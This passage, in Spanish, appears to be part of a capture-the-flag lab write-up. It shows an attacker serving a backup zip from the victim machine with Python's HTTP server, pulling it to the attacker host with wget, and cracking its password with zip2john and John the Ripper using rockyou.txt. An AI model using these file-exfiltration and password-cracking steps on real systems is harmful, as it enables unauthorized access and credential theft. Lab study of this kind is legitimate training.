 Ahora como atacante sabemos que la contrasena del usuario **juan** se encuentra en ese archivo **zip**
Revisando vemos que si existe el binario de python
```bash
which python3
/usr/bin/python3
```

Ahora desde la maquina victima, Montamos un servidor para dejar accesible este archivo **zip**
```bash
python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ..
```

Ahora desde nuestra maquina atacante realizamos la peticion para descargarnos ese archivo **zip**
```bash
wget http://172.18.0.2:8080/backup_rosa.zip
```

Si intentamos descomprimir nos pide una contrasena, que no tenemos
```bash
7z x backup_rosa.zip

7-Zip 24.09 (x64) : Copyright (c) 1999-2024 Igor Pavlov : 2024-11-29
 64-bit locale=es_MX.UTF-8 Threads:16 OPEN_MAX:1024, ASM

Scanning the drive for archives:
1 file, 215 bytes (1 KiB)

Extracting archive: backup_rosa.zip
--
Path = backup_rosa.zip
Type = zip
Physical Size = 215

Enter password (will not be echoed):
```

Ahora usaremos **john** para crakear la contrasena y poder obtener el contenido:
Creamos primero el hash
```bash
zip2john backup_rosa.zip > hash
ver 1.0 efh 5455 efh 7875 backup_rosa.zip/password.txt PKZIP Encr: 2b chk, TS_chk, cmplen=25, decmplen=13, crc=6A3D5968 ts=1B29 cs=1b29 type=0
```

Ahora rompemos el hash:
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

Tenemos la clave para ese archivo
```bash
Press 'q' or Ctrl-C to abort, almost any other key for status
123123           (backup_rosa.zip/password.txt)
```
